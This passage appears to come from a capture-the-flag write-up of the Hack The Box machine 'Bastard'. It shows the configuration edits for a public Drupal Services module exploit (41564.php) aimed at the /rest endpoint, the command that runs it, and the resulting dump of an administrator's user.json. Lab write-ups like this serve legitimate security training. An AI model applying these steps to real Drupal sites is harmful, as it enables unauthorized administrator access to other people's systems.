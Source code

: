 That path is not found on the box, however, if we simply change it to */rest* it works!

![Untitled](/medias/images/bastard/Untitled%203.png)

So it is using the *Services* module. We’ll use this exploit to gain an initial foothold on the box.

## Initial Foothold

Make the following changes to the exploit code.

```php
$url = '<ServerIP>';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';
```

There are also two comments that are not wrapped properly that you’ll need to fix.

Run the exploit.

```bash
php 41564.php
```

We get an “ Uncaught Error: Call to undefined function curl_init()” error message. That’s because we don’t have *php-curl* installed on our kali machine.

```bash
sudo apt-get install php-curl
```

Now the exploit should work.

![Untitled](/medias/images/bastard/Untitled%204.png)

Perfect! It created two files: *session.json* and *user.json*. View the content of *user.json*.

```bash
┌──(kali㉿kali)-[~/…/Machine/Windows/Medium/Bastard]
└─$ cat user.json                                                                                                                             1 ⚙
{
    "uid": "1",
    "name": "admin",
    "mail": "drupal@hackthebox.gr",
    "theme": "",
    "created": "1489920428",
    "access": "1600794805",
    "login": 1636275022,
    "status": "1",
    "timezone": "Europe\/Athens",
    "language": "",
    "picture": null,
    "init": "drupal@hackthebox.gr",
    "data": false,
    "roles": {
        "2": "authenticated user",
        "3": "administrator"
    },
    "rdf_mapping": {
        "rdftype": [
            "sioc:UserAccount"
        ],
        "name": {
            "predicates": [
                "foaf:name"
            ]
        },
```